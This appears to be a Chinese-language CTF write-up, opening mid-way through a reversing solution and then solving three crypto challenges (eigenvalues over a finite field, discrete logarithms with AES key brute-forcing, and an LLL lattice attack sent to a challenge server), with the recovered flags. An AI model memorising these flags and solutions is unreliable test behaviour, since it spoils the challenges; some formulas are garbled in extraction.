    0x5C, 0xAF, 0xB0, 0x1C, 0xFC, 0xEF, 0xC7, 0x8F, 
    0x03, 0xDF, 0x00, 0x39, 0x41, 0xBC, 0x47, 0x2F, 
    0x0C, 0x48, 0xFD, 0x8F, 0x7D, 0x0F, 0xD0, 0xFA, 
    0xF8, 0x2F, 0x83, 0xFD, 0xA6, 0x9E, 0x06, 0x59, 
    0xCE, 0x7B, 0x40, 0xBC, 0x67, 0xDC, 0xDD, 0x1B
]

xor_key = [
    0x4C76, 0x7DB8, 0x4764, 0x50F8, 0x43A7, 0x33C8, 0x6787, 0x69D4,
    0x4C7E, 0x6141, 0x4064, 0x0FA5, 0x4D13, 0x7FA9, 0x21F9, 0x5CC0,
    0x1776, 0x759E, 0x01FD, 0x334C
]

def reverse_operations(encrypted_bytes):
    """逆向处理加密操作：先交换高低位，再取反"""
    processed = []
    for byte in encrypted_bytes:
        # 交换高低4位（加密的最后一步）
        swapped = ((byte & 0x0F) << 4) | ((byte & 0xF0) >> 4)
        # 按位取反（加密的第二步）
        inverted = (~swapped) & 0xFF
        processed.append(inverted)
    return processed

def bytes_to_words(byte_data):
    """将字节数组转换为16位小端序字数组"""
    words = []
    for i in range(0, len(byte_data), 2):
        word = byte_data[i] | (byte_data[i+1] << 8)
        words.append(word)
    return words

def words_to_bytes(word_data):
    """将字数组还原为字节序列（小端序）"""
    byte_array = []
    for word in word_data:
        byte_array.append(word & 0xFF)       # 低字节
        byte_array.append((word >> 8) & 0xFF) # 高字节
    return bytes(byte_array)

# 逆向处理加密数据
intermediate_bytes = reverse_operations(encrypted_data)

# 转换为字数组（16位小端序）
intermediate_words = bytes_to_words(intermediate_bytes)

# 用密钥异或还原原始数据
decrypted_words = [
    intermediate_words[i] ^ xor_key[i] 
    for i in range(len(xor_key))
]

# 将字数组转换为字节序列
flag_bytes = words_to_bytes(decrypted_words)

# 输出Flag
print("Flag:", flag_bytes.decode())
```

---

# Crypto


## easy_math

### 解题思路：

先看看附件的加密逻辑：

将flag内容对半切分，前半部分转换为一个大整数 lambda1，后半部分转换为另一个大整数 lambda2。

我们的目标就是逆向这个过程，找到 lambda1 和 lambda2，然后将它们转换回字符串，从而得到 flag。

先看矩阵

p: 一个512位的素数，所有的计算都在模 p 的有限域 GF(p) 上进行。

v1, v2: 两个由128位素数组成的二维向量。这两个向量是未知的。

A: 一个 2x2 矩阵，由 v1 和 v2 作为行向量构成\\end{pmatrix}$。

B: 另一个 2x2 矩阵，它的第一行是 v1 乘以 lambda1，第二行是 v2 乘以 lambda2

C: 最终提供给我们的矩阵，其计算方式为 C=1/A

timesB。

这里的核心是理解矩阵 A,B,C 之间的关系。我们可以将矩阵 B 的构造过程用另一个矩阵来表示。定义一个对角矩阵 D：

D=(λ100λ2)

然后我们可以发现，矩阵 B 可以通过 D 和 A 的乘积得到：

B=(λ100λ2)(v11v21v12v22)=D×A

现在，我们将这个关系代入矩阵 C 的计算公式中：

C=A−1×B=A−1×(D×A)

这个表达式 C=A−1DA 在线性代数中被称为**矩阵的相似变换**。矩阵 C 和矩阵 D 是相似矩阵。

相似矩阵有一个非常重要的性质：**它们具有相同的特征值（Eigenvalues）**。

+ 对于对角矩阵 D，它的特征值就是其对角线上的元素，即 lambda_1 和 lambda_2。
+ 因此，矩阵 C 的特征值也必然是 lambda_1 和 lambda_2。

所以，整个问题就转化为了：**求解我们已知的矩阵 C 的特征值**。

理清楚思路后写脚本就行了，ai写写，直接在在线sage'环境跑，但是没有“crypto”库，微调了一下代码，最终脚本如下：

```python
# SageMath 内置库，无需额外安装
from sage.all import *

# 题目给出的 p 和 C
p = 9620154777088870694266521670168986508003314866222315790126552504304846236696183733266828489404860276326158191906907396234236947215466295418632056113826161
C_list = [[7062910478232783138765983170626687981202937184255408287607971780139482616525215270216675887321965798418829038273232695370210503086491228434856538620699645, 7096268905956462643320137667780334763649635657732499491108171622164208662688609295607684620630301031789132814209784948222802930089030287484015336757787801],
          [7341430053606172329602911405905754386729224669425325419124733847060694853483825396200841609125574923525535532184467150746385826443392039086079562905059808, 2557244298856087555500538499542298526800377681966907502518580724165363620170968463050152602083665991230143669519866828587671059318627542153367879596260872]]

# 定义有限域 GF(p)
F = GF(p)

# 在有限域 F 上构建矩阵 C
C_matrix = matrix(F, C_list)

# 计算 C 的特征值
eigenvalues = C_matrix.eigenvalues()

print(f"找到的特征值: {eigenvalues}")

# 将特征值（lambda1 和 lambda2）转换为字节
lambda1_int = eigenvalues[0]
lambda2_int = eigenvalues[1]

# --- 这里是修改的关键 ---
# 我们使用 Python 内置的 int.to_bytes() 方法
# 首先计算表示该整数所需的最小字节数
# 然后进行转换，'big'表示大端序，这是标准的转换方式
byte_len1 = (int(lambda1_int).bit_length() + 7) // 8
part1 = int(lambda1_int).to_bytes(byte_len1, 'big')

byte_len2 = (int(lambda2_int).bit_length() + 7) // 8
part2 = int(lambda2_int).to_bytes(byte_len2, 'big')
# --- 修改结束 ---


# 尝试两种拼接顺序
flag_content1 = part1 + part2
flag_content2 = part2 + part1

# 使用 try-except 来避免解码错误，因为flag中可能包含非utf-8字符
try:
    print(f"尝试1: LILCTF{{{flag_content1.decode('utf-8')}}}")
except UnicodeDecodeError:
    print(f"尝试1 (bytes): LILCTF{{{flag_content1}}}")

try:
    print(f"尝试2: LILCTF{{{flag_content2.decode('utf-8')}}}")
except UnicodeDecodeError:
    print(f"尝试2 (bytes): LILCTF{{{flag_content2}}}")
```



第一段就是正确的flag

LILCTF{It_w4s_the_be5t_of_times_1t_wa5_the_w0rst_of_t1me5}


## mid_math
### 解题思路：

AI分析代码之后缺少CD值  

寻找CD的值

```python
p = 14668080038311483271
P = GF(p)

C = matrix(P, [
[11315841881544731102, 2283439871732792326, 6800685968958241983, 6426158106328779372, 9681186993951502212],
[4729583429936371197, 9934441408437898498, 12454838789798706101, 1137624354220162514, 8961427323294527914],
[12212265161975165517, 8264257544674837561, 10531819068765930248, 4088354401871232602, 14653951889442072670],
[6045978019175462652, 11202714988272207073, 13562937263226951112, 6648446245634067896, 13902820281072641413],
[1046075193917103481, 3617988773170202613, 3590111338369894405, 2646640112163975771, 5966864698750134707]
])

D = matrix(P, [
[1785348659555163021, 3612773974290420260, 8587341808081935796, 4393730037042586815, 10490463205723658044],
[10457678631610076741, 1645527195687648140, 13013316081830726847, 12925223531522879912, 5478687620744215372],
[9878636900393157276, 13274969755872629366, 3231582918568068174, 7045188483430589163, 5126509884591016427],
[4914941908205759200, 7480989013464904670, 5860406622199128154, 8016615177615097542, 13266674393818320551],
[3005316032591310201, 6624508725257625760, 7972954954270186094, 5331046349070112118, 6127026494304272395]
])

# 计算特征值
eigenC = C.eigenvalues()
eigenD = D.eigenvalues()

print("eigenC:", eigenC)
print("eigenD:", eigenD)

# 对应计算key满足 eigenD_i = eigenC_i^key mod p
# 求解离散对数 discrete_log(eigenD_i, eigenC_i, p)
# key 是所有离散对数结果中相同的那个

得到
eigenC = [0, 13548047239731931439, 10741008122066331899, 2915915082365181132, 2524362820657834710]
eigenD = [0, 14219969811373602463, 7805278355513795080, 7126986745593039829, 6321945571561295171]
```

求key

```python
p = 14668080038311483271
P = GF(p)
eigenC = [13548047239731931439, 10741008122066331899, 2915915082365181132, 2524362820657834710]
eigenD = [14219969811373602463, 7805278355513795080, 7126986745593039829, 6321945571561295171]

keys = []
for i in range(len(eigenC)):
    a = P(eigenC[i])
    b = P(eigenD[i])
    try:
        k = discrete_log(b, a)
        print(f"Key candidate from eigenpair {i}: {k}")
        keys.append(k)
    except Exception as e:
        print(f"Failed to compute discrete log for eigenpair {i}: {e}")

print("All keys:", keys)
print("Unique keys:", set(keys))
```

拿到

```text
Key candidate from eigenpair 0: 977169478748826373

Key candidate from eigenpair 1: 9711059833940755678

Key candidate from eigenpair 2: 96997216499095342

Key candidate from eigenpair 3: 5273966641785501202

All keys: [977169478748826373, 9711059833940755678, 96997216499095342, 5273966641785501202]

Unique keys: {9711059833940755678, 5273966641785501202, 977169478748826373, 96997216499095342}
```

枚举：

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad, pad
from Crypto.Util.number import long_to_bytes

keys = [
    977169478748826373,
    9711059833940755678,
    96997216499095342,
    5273966641785501202
]

msg = b"\xcc]B:\xe8\xbc\x91\xe2\x93\xaa\x88\x17\xc4\xe5\x97\x87@\x0fd\xb5p\x81\x1e\x98,Z\xe1n`\xaf\xe0%:\xb7\x8aD\x03\xd2Wu5\xcd\xc4#m'\xa7\xa4\x80\x0b\xf7\xda8\x1b\x82k#\xc1gP\xbd/\xb5j"

for key_int in keys:
    try:
        key_bytes = long_to_bytes(key_int)
        key_bytes = pad(key_bytes, 16)
        aes = AES.new(key_bytes, AES.MODE_ECB)
        dec = aes.decrypt(msg)
        flag = unpad(dec, 64)
        print(f"=== Key {key_int} ===")
        print(flag.decode())
    except Exception as e:
        print(f"Key {key_int} 解密失败:", e)
```


LILCTF{Are_y0u_5till_4wake_que5t1on_m4ker!}


## Linear

### 解题思路：

可以用在线环境  
AI分析之后知道了需要求三个东西  
向量A B 以及x  
先求向量A B

```python
import socket
import ast
import numpy as np

def find_matching_bracket(s, start=0):
    count = 0
    for i in range(start, len(s)):
        if s[i] == '[':
            count += 1
        elif s[i] == ']':
            count -= 1
            if count == 0:
                return i
    return -1

def main():
    s = socket.create_connection(('challenge.xinshi.fun', 49829))
    data = b""
    while True:
        chunk = s.recv(4096)
        if not chunk:
            break
        data += chunk
    text = data.decode(errors='ignore').strip()

    start_idx = text.find('[')
    end_idx = find_matching_bracket(text, start_idx)
    matrix_str = text[start_idx:end_idx+1]

    rest = text[end_idx+1:].strip()
    vector_start = rest.find('[')
    vector_end = find_matching_bracket(rest, vector_start)
    vector_str = rest[vector_start:vector_end+1]

    A = np.array(ast.literal_eval(matrix_str), dtype=int)
    b = np.array(ast.literal_eval(vector_str), dtype=int)

    # 打印矩阵 A 和 向量 b
    print("矩阵 A:")
    print(A)
    print("向量 b:")
    print(b)

    # 求解线性方程组
    x_candidate, residuals, rank, s_val = np.linalg.lstsq(A, b, rcond=None)
    x_candidate = np.round(x_candidate).astype(int)

    answer = ' '.join(map(str, x_candidate))
    print("Sending answer:", answer)
    s.sendall((answer + '\n').encode())

    result = s.recv(4096).decode()
    print("Server response:")
    print(result)

if __name__ == "__main__":
    main()
```


得到

```python
矩阵 A:
[[1057601  961933  772746 1880080 1485870  341760  251430  772648 1546133
  1624512  821061 1796925 1660114  861291  511056 1208520  975803  164419
   555217  482139  242450 1687425   21683  939025  866187 1381561  422283
  1500232 1045366    7160  140111 1793522]
 [  38426 1062310 1555827 1770608 1466514 1566809 1343334 1578706 1584067
  1454517  531379 1748021 1184387 1411874 1444846 1185074  547272  844269
   434673 1377595 1251387 1402013  595742 1813293   94238 1758950 1293572
   265327 1095774  385781  501217 1209470]
 [1381992  542547  403663  820638 1675962  781502  847497 1680754 1298384
   575123 1883528   23261 1338025 1187199  790037  632418 1348912  612972
   112120  152579  657587 1754974  859404   49007  225570 1139280  144148
  1089768  711010  536074  851288  157033]
 [ 117813  295950 1125452 1856235  690096  372499 1892860 1442583 1838962
    41511 1444940  716264  180932 1499384 1536384  921160 1253874  502645
  1348639 1425467  886087 1628101  419001  947407  636207 1056777  838639
  1540518   19619  139850 1917401 1903852]
 [ 564483  439871   28809 1013155 1683224  210858 1405158 1203970 1414614
   413490 1475246 1075672    2054  385158 1872150 1567294   30394 1136342
  1560778  841279  178570  597263 1405518 1107273 1568154 1727673  903161
   692331 1516265  136256 1060496   81745]
 [ 551721  994108  890124  763002   81671  834425  106000 1040531 1201435
  1477153  131954  667001    8173  160871 1594453   20387  327574 1564924
  1252604 1598023  153505   97314  468487  323821  273086 1160803  174191
  1423280  886844  296941  700990  242807]
 [ 219455  289945 1013053 1469257  564361  489431 1445395 1555815  542058
   884650 1918873  481046 1905596  446836 1566895  494890  290026 1557839
   781661 1347045 1863541 1687514  530925  669400  404342  343696  141989
  1844356  149250 1522371 1144020  721305]
 [ 355900  315062  121737  821303 1314491  663178  948920 1089298  585710
  1055588 1249029  355635  154052  688422  776203  559260 1636986  659996
    92610 1251070  591088  946381  537662   37243  131949  298316 1071616
   187219  730726  201689   19705 1643367]
 [ 245153  720892 1306923 1915732  437541 1403430 1531390 1085442 1672598
  1218825  620653  308437 1754833 1805982  972675 1144164  707864   99693
  1500310  314861  883158 1692538  887393  631856 1575392 1243231  853807
   486355  298123  633304  798295  553307]
 [1835422 1603076  971882 1851269  482736  403926 1427922 1669376 1790180
   793299 1171260 1482766 1667383 1859089  132194  728272   91272 1596650
  1569175 1550994 1596128  519784 1174235   68582 1220774   32074 1799025
   399130  392868 1881891 1401090  904407]
 [  84582 1360507 1206583  239404 1699279   87562   45722  426334  866730
  1813925  357066 1024138 1177787 1380735 1648299 1804181 1717907 1829628
  1503622  945548 1758794 1107346 1172623 1664832 1609169  555693  629154
   406935 1744953  336467  453650 1219032]
 [ 537357 1902110  437727  421367  592813  430380  877399 1290350 1866075
   337044 1078025  944746 1824076   99940  609013  650603 1219178 1551779
  1099996  400130 1783908 1028543  109591  366193 1339110 1198001  479001
   554920 1089700  636435  625785 1328201]
 [ 709935 1797443   94593  588673 1495504   82705 1417507  583930 1177257
  1501178   77411 1597144 1125452  649607 1015216 1127475 1823478 1740950
   475493 1206694  220545  380220 1326776  924533 1609157 1858263 1240498
  1606522  173894  855514  671676  552492]
 [ 178752 1506185 1000662 1212366 1154694  672315  110980  790571  439105
   360996 1593625 1204477  676903 1347705  635656   59970  549379  981810
   223395  934157 1860469  978727 1828489 1577580  412139 1835518  282374
   588559  729949  891674  779033   46472]
 [ 932604 1732602 1894869 1332788 1193945  631264  155666  845693 1688165
   778601 1591147  248004  430121 1850334  596704  684232  926572  512708
  1798212 1316670 1745157  437456 1365905 1776944 1168650  770083 1493985
   189521 1660492  162621 1157188  547564]
 [ 485329  648303 1148137 1161190 1827590 1159097 1427687  639030  913720
  1028447 1519751  242454 1005164  601252 1768160  674527 1098989  495986
   225876 1826832 1419512  670578  513934 1096570 1291925 1466423 1125203
   960378  791845 1556275  102424  201452]]
向量 b:
[1390858890590 1774385868731 1316061902077 1597617158847 1604932747683
 1123876530803 1539678576390 1144695073202 1511831208028 1705372945268
 1808139048091 1555139148545 1539234919124 1376487569006 1737360375484
 1649203455175]
Sending answer: 14498 52448 30986 37917 63920 43036 49883 63078 62824 48228 83194 18892 36371 17802 82890 43483 55296 71326 66500 65021 77387 42867 43834 34750 67637 55129 44013 17834 82222 31179 21417 46065

```

Server response:

拿到向量A  B

求X

```python
# 1. 导入需要的模块
from sage.all import Integer, matrix, vector
from fpylll import IntegerMatrix, LLL

# 2. 定义矩阵 A 和向量 b（请用题目完整数据替换这里示例）
A = [
    [1057601, 961933, 772746, 1880080, 1485870, 341760, 251430, 772648, 1546133, 1624512, 821061, 1796925, 1660114, 861291, 511056, 1208520, 975803, 164419, 555217, 482139, 242450, 1687425, 21683, 939025, 866187, 1381561, 422283, 1500232, 1045366, 7160, 140111, 1793522],
    [38426, 1062310, 1555827, 1770608, 1466514, 1566809, 1343334, 1578706, 1584067, 1454517, 531379, 1748021, 1184387, 1411874, 1444846, 1185074, 547272, 844269, 434673, 1377595, 1251387, 1402013, 595742, 1813293, 94238, 1758950, 1293572, 265327, 1095774, 385781, 501217, 1209470],
    # 依此补齐剩余14行
]

b = [
    1390858890590, 1774385868731, 1316061902077, 1597617158847, 1604932747683,
    1123876530803, 1539678576390, 1144695073202, 1511831208028, 1705372945268,
    1808139048091, 1555139148545, 1539234919124, 1376487569006, 1737360375484,
    1649203455175
]

# 3. 用Sage的Integer和matrix、vector构造
A_sage = matrix([[Integer(x) for x in row] for row in A])
b_sage = vector([Integer(x) for x in b])

nrows, ncols = A_sage.nrows(), A_sage.ncols()

# 4. 构造格基矩阵 M
M = matrix(ZZ, ncols + nrows, ncols + nrows)

for i in range(ncols):
    M[i,i] = 1

for i in range(nrows):
    for j in range(ncols):
        M[j, ncols + i] = A_sage[i,j]

for i in range(nrows):
    M[ncols + i, ncols + i] = b_sage[i]

# 5. LLL约简
M_lll = M.LLL()

# 6. 取得短向量作为可能解
x_candidate = M_lll.column(0)[:ncols]

print("可能整数解向量x:")
print(x_candidate)

可能整数解向量x:
(1, 0, -1, 2, -1, -1, 0, 0, -1, -1, 0, 0, -2, 1, 0, 0, -1, -1, -2, -2, -1, 0, 0, 1, 0, 0, 1, 0, 0, -1, -2, -1)

最后把求道的东西给AI写一个脚本调试了好久
from sage.all import matrix, vector, ZZ, BKZ
from pwn import remote
import ast

def main():
    # 初始化远程连接
    io = remote("challenge.xinshi.fun", 49829)
    
    # 接收并解析输入数据
    data = io.recvuntil("Enter your solution:").decode().split('\n')
    A = matrix(ZZ, ast.literal_eval(data[0].strip()))
    b = vector(ZZ, ast.literal_eval(data[1].strip()))
    print("[+] 解析矩阵A和向量b完成")
    
    # 构造增广矩阵 [A | b]
    aug = A.augment(b, subdivide=True)
    
    # 计算增广矩阵的右零空间（等价于求解 v*aug = 0）
    null_space = aug.right_kernel()
    if null_space.dimension() == 0:
        print("零空间维度为0，无特解")
        return
    
    # 生成零空间基矩阵并进行格基约化（改用BKZ算法）
    basis = matrix(ZZ, null_space.basis())
    reduced_basis = basis.BKZ(block_size=20)  # 调整块大小，与原LLL逻辑区分
    
    # 遍历约化基，筛选范数最小且常数项非零的向量（替代直接取第一个）
    min_norm = None
    target_vec = None
    for vec in reduced_basis:
        s = vec[-1]  # 常数项（对应原代码的scalar）
        if s == 0:
            continue
        current_norm = vec.norm()
        if min_norm is None or current_norm < min_norm:
            min_norm = current_norm
            target_vec = vec
    if target_vec is None:
        print("未找到有效零空间向量")
        return
    
    # 计算特解：x = -vec[:-1] / s
    s = target_vec[-1]
    solution = (-vector(target_vec[:-1])).apply_map(lambda x: x / s)
    
    # 验证解的正确性
    if A * solution == b:
        print("[+] 特解验证通过")
        # 格式化并发送解（确保整数形式）
        sol_str = " ".join(map(str, map(int, solution)))
        io.sendline(sol_str)
        # 接收结果
        res = io.recvall(timeout=3).decode()
        print("[+] 服务器响应:", res)
        io.close()
    else:
        print("特解验证失败")

if __name__ == "__main__":
    main()
```




LILCTF{fd2204c4-cc41-4b6a-8065-6b852279a7de}

